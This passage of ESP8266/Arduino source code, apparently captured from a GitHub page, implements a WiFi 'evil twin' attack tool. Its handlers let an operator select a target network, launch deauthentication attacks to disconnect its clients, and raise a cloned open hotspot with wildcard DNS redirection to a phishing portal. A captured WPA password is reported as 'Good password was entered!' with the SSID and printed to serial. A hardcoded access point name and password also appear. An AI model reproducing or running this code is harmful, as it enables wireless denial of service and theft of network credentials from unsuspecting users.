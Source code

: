     // Reconfigure AP
    WiFi.softAPConfig(IPAddress(192, 168, 4, 1), IPAddress(192, 168, 4, 1), IPAddress(255, 255, 255, 0));
    WiFi.softAP("TPlinksecure", "mafia007");
    dnsServer.start(DNS_PORT, "*", IPAddress(192, 168, 4, 1));
    
    _correct = "Successfully connected to: " + _selectedNetwork.ssid + " with Password: " + _tryPassword;
    Serial.println("Good password was entered!");
    Serial.println(_correct);
    html += "<h3>" + _correct + "</h3>";
  }
  html += _baseHTMLEnd;
  webServer.send(200, "text/html", html);
}

// Updated Handle Index with Enhanced Interface
void handleIndex() {
  if (webServer.hasArg("ap")) {
    for (int i = 0; i < 16; i++) {
      if (bytesToStr(_networks[i].bssid, 6) == webServer.arg("ap")) {
        _selectedNetwork = _networks[i];
      }
    }
  }

  if (webServer.hasArg("deauth")) {
    if (webServer.arg("deauth") == "start") {
      deauthing_active = true;
    } else if (webServer.arg("deauth") == "stop") {
      deauthing_active = false;
    }
  }

  if (webServer.hasArg("hotspot")) {
    if (webServer.arg("hotspot") == "start") {
      hotspot_active = true;

      dnsServer.stop();
      int n = WiFi.softAPdisconnect(true);
      Serial.println(String(n));
      WiFi.softAPConfig(IPAddress(192, 168, 4, 1), IPAddress(192, 168, 4, 1), IPAddress(255, 255, 255, 0));
      WiFi.softAP(_selectedNetwork.ssid.c_str());
      dnsServer.start(DNS_PORT, "*", IPAddress(192, 168, 4, 1));

    } else if (webServer.arg("hotspot") == "stop") {
      hotspot_active = false;
      dnsServer.stop();
      int n = WiFi.softAPdisconnect(true);
      Serial.println(String(n));
      WiFi.softAPConfig(IPAddress(192, 168, 4, 1), IPAddress(192, 168, 4, 1), IPAddress(255, 255, 255, 0));
      WiFi.softAP("TPlinksecure", "mafia007");
      dnsServer.start(DNS_PORT, "*", IPAddress(192, 168, 4, 1));
    }
    return;
  }
